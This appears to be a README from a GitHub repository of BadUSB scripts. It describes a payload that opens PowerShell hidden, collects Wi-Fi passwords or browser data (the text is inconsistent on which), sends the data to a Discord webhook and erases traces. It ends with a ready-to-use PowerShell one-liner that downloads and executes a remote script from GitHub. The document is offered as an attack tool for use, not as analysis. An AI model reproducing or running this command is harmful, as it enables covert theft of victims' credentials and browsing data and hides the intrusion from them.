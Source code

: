 # WLAN Windows Password - BadUSB ✅

A script used to stole target WLAN Passwords.


**Category**: WLAN, Credentials

<div align=center>

<img src="/main/img/logo-repository-2_0.gif" width="600" /><br>
<img src="/main/img/DISCLAIMER.png" width="600" />

</div>

## Description

A script used to stole target Browser History & Data.

Opens PowerShell hidden, grabs all browsers data, saves in a file and exfiltrates info via Discord Webhook.

Then it cleans up traces of what you have done after.

## Getting Started

### Dependencies

* An internet connection
* Windows 10,11

### Executing program

* Plug in your device
* Invoke 2 netsh commands
* Invoke-WebRequest will be entered in the Run Box to send the content to Discord

All
```powershell
powershell -WindowStyle Hidden -Command "iex (iwr -uri 'https://raw.githubusercontent.com/Zenin0/Glipper_Scripts/main/Windows/Credentials/BrowserData/browserData.ps1').Content"
```

